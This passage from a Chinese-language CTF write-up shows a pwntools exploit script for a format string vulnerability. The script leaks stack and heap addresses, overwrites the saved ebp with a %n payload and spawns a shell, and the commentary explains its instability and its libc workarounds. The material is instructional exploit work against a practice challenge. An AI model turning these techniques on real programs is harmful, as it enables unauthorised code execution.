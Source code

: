 ```python
creat('2222', 'skye', 0x20, payload)
show()
p.recvuntil('Description: ')
data = p.recvuntil('cccc', drop=True)
data = data.split('0x')
ebp_addr = int(data[-2], 16)
log.info("ebp_addr:"+hex(ebp_addr))
heap_addr = int(data[-1], 16)
log.info("heap_addr:"+hex(heap_addr))


# overwrite main_ebp
payload = '%{}c%6$n'.format(str(heap_addr-4))
creat('3333', 'skye', 68, payload)
#gdb.attach(p,'b *0x0804876A')
#raw_input('pause')
show()


#getshell
p.recvuntil('>>> ')
p.sendline('5')

p.interactive()
```

需要注意的是，这样并不能稳定得到 shell，因为我们一次性输入了太长的字符串。但是我们又没有办法在前面控制所想要输入的地址。只能这样了。

为什么需要打印这么多呢？因为格式化字符串不在栈上，所以就算我们得到了需要更改的 ebp 的地址，也没有办法去把这个地址写到栈上，利用 $ 符号去定位他；因为没有办法定位，所以没有办法用 hn\hhn 等方式去写这个地址，只能用 n 方式去写，所以打印很多。

**注解**：

我的脚本中用的不是 ``system('/bin/sh')`` ，而是 ``system('sh')`` ，这是因为用题目提供的 libc 搜索 /bin/sh 得到结果有误，得到的地址不是 /bin/sh ：

![fmrstr_5.png](_images/格式化字符串漏洞基础例子/fmrstr_5.png)

而去到 libcdatabase 得到结果是：``0xf7f60a0b``，里面有一个 0x0a 就是换行符嘛，这样会提前终止输入，所以也不行。最后使用题目提供 libc 搜索 sh ，成功 getshell 。

在我的环境（Ubuntu 16.04）没有遇到 system \x00 阻断，所以 payload 中 system 前置。如果遇到阻断，就将 system 后置，并调整 ebp 覆盖内容加上偏移即可。
